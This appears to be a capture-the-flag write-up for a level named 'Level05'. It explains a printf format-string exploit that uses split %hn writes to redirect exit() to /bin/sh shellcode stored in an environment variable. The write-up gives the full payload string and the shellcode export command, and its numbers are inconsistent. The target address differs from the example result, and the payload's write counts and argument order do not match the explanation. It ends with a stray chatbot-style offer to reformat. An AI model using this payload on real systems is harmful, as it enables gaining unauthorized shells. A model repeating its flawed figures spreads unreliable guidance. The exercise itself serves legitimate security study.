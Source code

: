# Level05 – Format String Exploit

This level has a protected fgets input (no buffer overflow), but an unsafe printf without a format string and a call to exit()—which we can exploit.

## Key Differences
The target value is too large for a simple %n write.

Function addresses differ between debugger and real execution.

## Using %hn Instead of %n

%n writes 4 bytes, %hn writes 2 bytes.

To overwrite exit() at 0x080497e0, we split it:

Write lower 2 bytes at 0x080497e0

Write upper 2 bytes at 0x080497e2

Stack offset: input starts at the 10th argument (%10$hn), each 4 bytes:


%10$hn -> writes to 0x080497e0

%11$hn -> writes to 0x080497e2

## Example Payload

Goal: Write value 0xffffd6b8 (address of shellcode in env)

Lower: 0xd6b8 = 54968

Upper: 0xffff = 65535 → 65535 - 54968 = 10567

### Payload:


    "\xe2\x97\x04\x08" + "\xe0\x97\x04\x08" + "%54960x%11$hn" + "%10559x%10$hn"
    (Adjusting for the 8 bytes already printed by addresses)

Shellcode in Environment
Export shellcode:

    export SHELLCODE=$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
Get its address:


    env -i SHELLCODE=... ./level05
Example result:

    0xffffd91a
Use this address as the value to overwrite exit()—when triggered, it jumps to your shellcode.

Let me know if you'd like this formatted for a specific platform (like GitHub-flavored Markdown).